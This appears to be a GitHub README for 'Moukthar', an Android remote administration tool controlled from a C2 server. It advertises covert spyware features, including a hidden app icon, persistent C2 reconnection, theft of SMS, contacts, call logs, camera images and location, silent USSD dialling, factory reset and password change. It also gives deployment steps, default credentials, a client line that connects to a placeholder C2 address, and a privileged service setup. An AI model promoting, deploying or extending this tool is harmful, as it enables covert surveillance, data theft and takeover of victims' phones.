

# Moukthar

Codebase foundation for an Android Remote Administration Tool with C2 Server

## Features
- Persistent reconnection with C2 regardless if the client application is closed or placed in background or the device is restarted or current connection is interrupted
- Hidden App Icon
- Send/Read SMS
- Write/Read Contacts
- Read Call Log
- Dial USSD code without opening dialer (API 26+)
- Take Picture (Front/Back camera)
- Take Screenshot
- Make Phone Call
- List Installed Apps
- Vibrate Phone
- Get Device Location
- Change Wallpaper
- Factory Reset Device
- Reboot Device
- Change Device Password


## NB
```
USERNAME: android
PASSWORD: the rastafarian in me
```
<!-- PEM PASS PHRASE: android -->
Replace the domain value with your ip/domain in ```__init__.py``` wherever you see the line
```python
resp.set_cookie(key="", value="", expires="", domain="your ip/domain")
```
to enable Remember Me functionality in the Login page.

Specify the ip/domain of the C2 server in the [Client app](client/app/src/main/java/com/ot/androidrat/MainService.java#L32).

```java
Socket ioSocket = IO.socket(URI.create("http://C2_ADDRESS:5001"));
```

## Production Environment Setup
For linux envitonments, run ```server/setup.sh``` with a privileged user to make moukthar a service.
```console
user@pc1:~/moukthar$ chmod +x ./server/setup.sh
user@pc1:~/moukthar$ sudo ./server/setup.sh
```

### Nginx
```/etc/nginx/sites-available/moukthar```
```nginx
server{
    listen 80;
    server_name moukthar;
    access_log /var/log/nginx/moukthar.access.log;
    error_log /var/log/nginx/moukthar.error.log;

    location / {
       include proxy_params;
       proxy_pass https://127.0.0.1:5001;
    }
}
```
## Screenshots





## Warning
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

